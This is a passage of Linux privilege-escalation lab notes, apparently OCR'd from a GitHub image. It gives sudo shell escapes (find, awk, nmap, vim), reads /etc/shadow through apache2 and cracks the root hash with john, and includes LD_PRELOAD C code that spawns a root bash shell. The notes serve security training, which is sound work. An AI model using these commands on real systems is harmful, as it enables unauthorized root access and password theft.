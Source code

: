 a. **sudo find /bin -name nano -exec /bin/sh \;**

b. **sudo awk 'BEGIN {system("/bin/sh")}'**

c. **echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse**

d. **sudo vim -c '!sh'**

#  Sudo (Abusing Intended Functionality)

### Detection

1. In command prompt type: **sudo -l**

2. From the output, notice the list of programs that can run via sudo.

### Exploitation

1. In command prompt type:

**sudo apache2 -f /etc/shadow**

2. From the output, copy the root hash.

**Attacker**

1. Open command prompt and type:

**echo '[Pasted Root Hash]' > hash.txt**

2. In command prompt type:

**john --wordlist=/usr/share/wordlists/nmap.lst hash.txt**

3. From the output, notice the cracked credentials.

# Sudo (LD_PRELOAD)

### Detection

1. In command prompt type: **sudo -l**

2. From the output, notice that the **LD_PRELOAD** environment variable is intact.

### Exploitation

1. Open a text editor and type: 

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

```
